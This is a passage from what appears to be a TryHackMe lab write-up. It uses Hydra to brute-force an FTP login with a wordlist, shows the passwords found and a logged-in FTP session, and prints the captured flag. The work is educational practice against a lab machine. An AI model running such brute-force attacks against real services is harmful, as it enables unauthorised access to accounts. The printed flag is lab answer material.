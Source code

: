 Let's brute-force the ftp login first:

```
hydra -l ftp -P clinic.lst ftp://10.10.131.98 -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-12 21:58:35
[DATA] max 4 tasks per 1 server, overall 4 tasks, 105 login tries (l:1/p:105), ~27 tries per task
[DATA] attacking ftp://10.10.131.98:21/
[21][ftp] host: 10.10.131.98   login: ftp   password: Research
[21][ftp] host: 10.10.131.98   login: ftp   password: protected
[21][ftp] host: 10.10.131.98   login: ftp   password: Oxytocin
[21][ftp] host: 10.10.131.98   login: ftp   password: Cortisol
```

If we use the first credentials, we can see this:

```
ftp 10.10.131.98
Connected to 10.10.131.98.
220 (vsFTPd 3.0.3)
Name (10.10.131.98:samsepiol): ftp
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 111      116          4096 Oct 12  2021 files
226 Directory send OK.
ftp> cd files
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              38 Oct 12  2021 flag.txt
226 Directory send OK.
```


We got our flag:

```
cat flag.txt
THM{d0abe799f25738ad739c20301aed357b}
```

### Rule-Based

![Pasted image 20250512170320.png](../../../IMAGES/Pasted%20image%2020250512170320.png)
